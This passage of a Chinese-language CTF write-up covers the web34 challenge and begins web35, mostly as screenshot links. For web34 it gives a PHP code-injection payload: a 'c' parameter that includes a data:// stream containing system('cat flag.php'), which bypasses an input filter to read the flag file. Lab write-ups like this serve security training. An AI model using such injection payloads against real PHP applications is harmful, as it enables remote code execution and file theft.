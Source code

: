 得到flag

------

#### web34

分析

![image-20231216115323040](照片/image-20231216115323040.png)

比上题多过滤了一个：

但对于web32的并没有影响

继续使用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20231216115103207](照片/image-20231216115103207.png)

(因为技术问题部分截图损失，故有些类似题目采用相同截图)

得到flag

------

#### web35

分析

![image-20231216115429726](照片/image-20231216115429726.png)
